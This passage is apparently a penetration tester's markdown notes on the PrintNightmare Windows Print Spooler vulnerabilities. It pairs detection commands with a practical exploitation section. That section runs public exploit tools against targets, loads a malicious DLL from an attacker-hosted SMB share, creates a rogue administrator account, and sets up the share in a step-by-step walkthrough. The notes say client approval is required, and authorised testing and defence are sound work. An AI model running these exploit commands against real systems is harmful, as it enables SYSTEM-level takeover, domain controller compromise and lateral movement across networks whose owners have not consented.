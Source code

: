#### Technical Details
```bash
# Two main variants:
# CVE-2021-1675: Local privilege escalation via Point and Print
# CVE-2021-34527: Remote code execution via Print Spooler RPC

# Detection Methods (Based on TCM Security Walkthrough)
rpcdump.py @target_ip | egrep 'MS-RPRN|MS-PAR'
# MS-RPRN = Print System Remote Protocol
# MS-PAR = Print System Asynchronous Remote Protocol

crackmapexec smb target_range -M printnightmare

# Check if Print Spooler is running
sc query spooler
Get-Service -Name Spooler

# Manual detection via registry
reg query "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PointAndPrint" /v RestrictDriverInstallationToAdministrators

# Alternative RPC detection methods
rpcinfo -p target_ip | grep -i spooler
nmap -p 135 --script=msrpc-enum target_ip
```

#### Practical Exploitation (Client Approval Required!)
```bash
# GitHub Implementation: cube0x0/CVE-2021-1675
# C# and Impacket implementation of PrintNightmare

# Method 1: Python Implementation (CVE-2021-1675.py)
python3 CVE-2021-1675.py target_ip/username:password@target_ip

# Method 2: C# Implementation (SharpPrintNightmare)
SharpPrintNightmare.exe C:\Windows\System32\kernelbase.dll \\target_ip

# Method 3: PowerShell Implementation
Import-Module .\CVE-2021-1675.ps1
Invoke-Nightmare -DriverName "1337" -NewUser -Username "admin" -Password "P@ssw0rd123!"

# Method 4: Impacket Implementation
python3 CVE-2021-1675.py 'domain/user:password@target_ip' -dll '\\attacker_ip\share\evil.dll'
```

#### Impact Assessment
- **SYSTEM level access** on affected systems
- **Domain controller compromise** if DC affected
- **Lateral movement** across entire domain
- **Service disruption** potential

#### PrintNightmare Walkthrough (Based on cube0x0 Implementation)
```bash
# Step 1: Identify vulnerable systems
crackmapexec smb target_range -M printnightmare
# Look for: [+] PrintNightmare vulnerable

# Step 2: Verify Print Spooler service
crackmapexec smb target_ip -u user -p pass -x "sc query spooler"
# Should show: STATE: 4 RUNNING

# Step 3: Setup SMB share for DLL hosting
impacket-smbserver share . -smb2support -username user -password pass
```